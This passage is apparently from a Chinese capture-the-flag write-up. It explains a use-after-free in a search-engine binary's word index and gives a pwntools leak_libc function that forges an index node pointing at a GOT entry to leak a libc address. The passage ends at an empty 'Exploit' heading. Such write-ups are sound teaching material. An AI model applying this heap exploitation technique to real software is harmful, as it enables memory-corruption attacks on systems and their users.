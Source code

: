 不是每次都能泄露成功，多试几次。

# Leak Libc

程序的 index 选项分配的字符串索引在字符串被删除后并未被释放。利用这个 uaf 如果能够分配一个 `sentence` 在字符串索引中，那么当 `search` 字符串匹配时就可以泄露 `sentence` 中我们所构造的地址信息，实现任意地址读取。

但是当程序的一个 `sentence` 被删除时，它所在的内存也被清空了，我们还需要通过 `search` 的空字符检查，然后再 `search` 一个空字符即可匹配到对应的 `sentence`。

利用步骤如下：

1. 分配一个与字符串索引大小一致的 `sentence` (0x30字节大小）。
2. 删除该 `sentence`。
3. 然后创建一个大于0x30字节的 `sentence`，这样它被分配到一块新的内存，而它的字符串索引被分配到上一个 `sentence`的位置。
4. 这时上一个 `sentence` 的字符串索引已不为空，使用 `search` 空字符与其匹配并删除它，它任然是一个字符串索引。
5. 现在使用 `sentence` 分配一个 0x30 大小的 chunk 落在字符串索引上，将其字符指针设置为 GOT 表地址。
6. 当我们 `search` GOT 表上的字符，GOT 表上的函数地址会被打印出来。

```python
def leak_libc():
    index_sentence(('a'*12 + ' b ').ljust(40, 'c'))

    search('a' * 12)
    p.sendline('y')
    
    index_sentence('d' * 64)

    search('\x00')
    p.sendline('y')

    node = ''
    node += p64(0x400E90) # word pointer "Enter"
    node += p64(5) # word length
    node += p64(0x602028) # sentence pointer (GOT address of free)
    node += p64(64) # length of sentence
    node += p64(0x00000000) # next pointer is null
    assert len(node) == 40

    index_sentence(node)

    # makes parsing out the leaked address easier below.
    p.clean()

    search('Enter')
    p.recvuntil('Found 64: ')
    leak = u64(p.recvline()[:8])
    p.sendline('n') # deleting it isn't necessary
    return leak
```

这里还是可以使用 small/large chunk 泄露 libc。

# Exploit
